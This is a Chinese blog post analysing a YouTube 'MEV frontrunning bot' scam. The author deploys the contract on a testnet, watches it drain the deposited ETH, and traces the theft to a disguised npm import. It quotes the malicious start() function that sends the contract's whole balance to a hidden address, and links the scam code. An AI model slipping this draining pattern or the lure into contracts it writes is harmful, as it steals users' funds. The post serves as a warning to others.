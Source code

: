 ```yaml
---
layout: post
title: "差点被骗了一个ETH"
date: 2022-09-11 22:30
---
```


### 起因

前段时间在群里看到群友发了一个油管的[链接](https://www.youtube.com/watch?app=KWnnhv&v=UtOrHj83hSQ%3DcdKfd9)，视频内容大致就是你只需按照他的代码部署机器人的EVM合约即可躺赚收益，原理就是狙击在Uniswap在某些大额交易变成“事实”之前抢先插队在大额买入或卖出之前买入，并且在大额买入或卖出成功后立马卖出或买入完成套利。



### 经过

抱着怀疑态度，看了下评论（当时觉得800多条评论，不可能是假的吧），觉得卧槽牛逼，赶紧试一下。作者还为大家解惑，为什么免费分享代码，是因为想建立自己在圈子的影响力，说得跟真的一样。

![](https://upload-images.jianshu.io/upload_images/2782305-3f4e97132f615f3d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



![](https://upload-images.jianshu.io/upload_images/2782305-4a266de449aeec12.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




代码很简单，[https://pastebin.com/raw/vY4Y2c1y](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbVF5cGluQjJIcmZPVlBhemxIRlFZU0JQVmVOZ3xBQ3Jtc0trcDZaQ291dWd3UTBlaXc5ZThKZE5PRG1wbHJKOG9KcnhYSWtuTEZmRE9nYkhITzB6dkZublQ0YmZkQzNRNThlbk11RUkyWjF2NUN5SjRFTUpEWTNycXVLYXFya2VmeHNfdndRWG5ZRjkzVGVVV29ZYw&q=https%3A%2F%2Fpastebin.com%2Fraw%2FvY4Y2c1y&v=UtOrHj83hSQ)，就一个文件，用remix连接狐狸部署即可，然后向合约转钱，手动执行合约的函数就可以开始赚钱，教程里说转的eth越多赚的越多。

谨慎起见还是用测试网络Ropsten试一下，测试不要钱，反正从水龙头可以随便拿钱（https://faucet.metamask.io/）。

![](https://upload-images.jianshu.io/upload_images/2782305-d8b2664cc4502abb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-2c38630f4c1f29b2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


部署完毕，合约放了两个函数出来`start`就是开始开始赚取收益，`withdraw`就是把合约里的钱进行提现 （看似逻辑非常完美），因为合约也是你自己部署的，自己往合约上转钱。

往合约转1eth

![](https://upload-images.jianshu.io/upload_images/2782305-ef889440ae7867fe.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


有了，点击`start`！开始赚钱！

![](https://upload-images.jianshu.io/upload_images/2782305-ab4aba6ad35842a9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


下一刻，钱没了。看下内部转账，调用`start`之后，合约内部往下面这个地址转了所有的钱。

![](https://upload-images.jianshu.io/upload_images/2782305-ac22d9b1f31bc53e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


开始百思不得其解，因为在代码全局里根本搜不到这个地址。

回来看下`start`方法

```solidity
function start() public payable {      

  /*
  * @dev Perform frontrun action from different contract pools
  * @param contract address to snipe liquidity from
  * @return `liquidity`.
  */

  payable(manager.DepositAddress()).transfer(address(this).balance);
}
```

这个`manager.DepositAddress()`很有误导性，看起来是合约的管理者，但`manager`这个类在代码里找不到。

花了很久很久，终于。。。发现了一个可疑的引入

![](https://upload-images.jianshu.io/upload_images/2782305-d6eb2fbdfe7bc487.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




在`npmjs.com`一搜出来是这么个玩意，死都想不到是这个cmc的npm出了问题。真就还以为是cmc官网的api。真的太有迷惑性了。

![](https://upload-images.jianshu.io/upload_images/2782305-ac62371c7723c090.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




在非常隐蔽的地方找到了这个manager类，其余代码都已注释

![](https://upload-images.jianshu.io/upload_images/2782305-8ee4161188a6d2d0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-e801396f778adc74.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![](https://upload-images.jianshu.io/upload_images/2782305-779d265b062a7250.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


最终在这里返回了骗子的地址。




### 总结

1.凡是说只要部署合约就能赚钱的大概率是骗子，夹子机器是一个复杂的技术, 仅有合约是不能夹到交易的, 因为合约不会自动运行, 需要另外的监控脚本/程序去调用合约。

2.小白部署合约前，即使看不懂solidty代码，也应该在testnet进行测试，确保合约的安全性。

3.solidty的引入默认会从npm拉取，而npm.js上的包上传是不需要任何认证和经过安全review的，引入npm时，请确保该包是否有毒。我在上面后续发现了大量具有迷惑性名称的package来假装官方的package。

4.世界上没有不劳而获的事情，不断提高自己的认知是获的前提。
